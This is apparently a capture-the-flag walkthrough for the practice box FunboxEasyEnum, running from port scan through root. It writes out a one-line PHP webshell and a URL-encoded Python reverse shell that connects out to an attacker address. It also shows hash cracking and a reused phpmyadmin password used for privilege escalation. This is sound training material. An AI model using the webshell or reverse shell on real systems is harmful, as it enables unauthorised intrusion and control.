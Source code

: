 # PG Play - FunboxEasyEnum

#### Ip: 10.129.30.102
#### Name: FunboxEasyEnum
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the --min-rate 10000 flag to speed things up. I'll also use the -sC and -sV to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 192.168.182.132
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-22 14:27 CDT
Nmap scan report for 192.168.182.132
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c52325b8bf638c77fa1b704854954f3 (RSA)
|   256 d6135606153624ad655e7aa18ce564f4 (ECDSA)
|_  256 1ba9f35ad05183183a23ddc4a9be59f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.91 seconds                                                          
```

SCanning for idrectories we find `/mini.php`

pg_fbee_dirs.png

We can upload a simple webshell:

```php
<?php system($_GET["cmd"]); ?>
```

pg_fbee_cmd.png

And confirm execution

pg_fbee_id.png

Lets issues a python3 reverse shell one liner:

```
http://192.168.182.132/cmd.php?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.45.202%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

An we catch a shell back as www-data:

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.202] from (UNKNOWN) [192.168.182.132] 56982
www-data@funbox7:/var/www/html$ whoami 
whoami
www-data
www-data@funbox7:/var/www/html$ hostname
hostname
funbox7
```

We can then grab the loacl.txt flag in `/var/www`

pg_fbee_local.png

### Privilege Escalation

Loading linpeas we find tha password hash for user oracle, which we can crack with John:

```
╔══════════╣ Users with console
goat:x:1003:1003:,,,:/home/goat:/bin/bash
harry:x:1001:1001:,,,:/home/harry:/bin/bash
karla:x:1000:1000:karla:/home/karla:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
root:x:0:0:root:/root:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
```

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ cat >> hash                                
$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ john hash /usr/share/wordlists/rockyou.txt 
<SNIP>
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 ASIMD 4x2])
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
hiphop           (?)  
```

Yet nothing came of being user oracle.

Going back to my original linpeas output we find a DB cred:

```
══════════╣ Searching passwords in config PHP files
/etc/phpmyadmin/config-db.php:$dbpass='tgbzhnujm!';
/etc/phpmyadmin/config-db.php:$dbuser='phpmyadmin';
```

I test for password reuse and see that user karla is also using this password:

```
oracle@funbox7:/home$ su karla
su karla
Password: tgbzhnujm!

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

karla@funbox7:/home$ whoami
whoami
karla
```

Running `sudo -l` we see that karla can run anything she wants as root:

```
karla@funbox7:/home$ sudo -l
sudo -l
[sudo] password for karla: tgbzhnujm!

Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL
```

So we can run:

```
karla@funbox7:/home$ sudo su -
sudo su -
root@funbox7:~# whoami
whoami
root
```

And grab the final flag:

pg_fbee_root.png

Thanks for following along!

-Ryan

--------------------------------------------
